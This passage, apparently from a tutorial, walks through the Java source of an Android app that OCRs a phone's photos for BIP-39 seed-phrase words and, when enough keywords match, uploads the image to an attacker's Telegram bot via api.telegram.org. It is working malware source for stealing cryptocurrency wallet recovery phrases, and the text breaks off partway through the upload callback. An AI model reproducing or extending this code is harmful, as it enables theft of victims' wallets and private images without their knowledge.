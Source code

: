 The method extracts English words using a regular expression. If you need to work with text in other languages,
you can easily add additional regular expressions to the Pattern object, adapting them to the desired languages.

(As mentioned above, seed phrases in the BIP-39 format may be in other languages)

```
private boolean checkForKeywords(ArrayList<String> words) {
        int keywordCount = 0;
        for (String word : words) {
            if (keywords.contains(word)) {
                Log.d("Keyword Found", "The keyword was found: " + word);
                keywordCount++;
                if (keywordCount >= keywordcount) {
                    return true;
                }
            }
        }
        return false;
    }
```
Checks whether the list of words contains at least one of the keywords from the keywords collection.
If enough keywords are found (determined by the keywordcount variable), the method returns true, which initiates sending data to Telegram.

And finally, sending data to Telegram:

```
private void sendPhotoToTelegram(Uri imageUri, ArrayList<String> words, String caption) {
        try {
            File file = new File(getCacheDir(), "image.jpg");
            Bitmap bitmap = BitmapFactory.decodeStream(getContentResolver().openInputStream(imageUri));
            FileOutputStream fos = new FileOutputStream(file);
            bitmap.compress(Bitmap.CompressFormat.JPEG, 100, fos);
            fos.flush();
            fos.close();

            if (bitmap != null && !bitmap.isRecycled()) {
                bitmap.recycle();
            }

            OkHttpClient client = new OkHttpClient();
            RequestBody requestBody = new MultipartBody.Builder()
                    .setType(MultipartBody.FORM)
                    .addFormDataPart("chat_id", CHAT_ID)
                    .addFormDataPart("photo", "image.jpg", RequestBody.create(MediaType.parse("image/jpeg"), file))
                    .addFormDataPart("caption", caption)
                    .build();

            Request request = new Request.Builder()
                    .url("https://api.telegram.org/bot" + BOT_TOKEN + "/sendPhoto")
                    .post(requestBody)
                    .build();

            client.newCall(request).enqueue(new okhttp3.Callback() {
                @Override
                public void onFailure(okhttp3.Call call, IOException e) {
                    Log.e("Telegram", "Error sending the message", e);
                }

                @Override
                public void onResponse(okhttp3.Call call, Response response) throws IOException {
```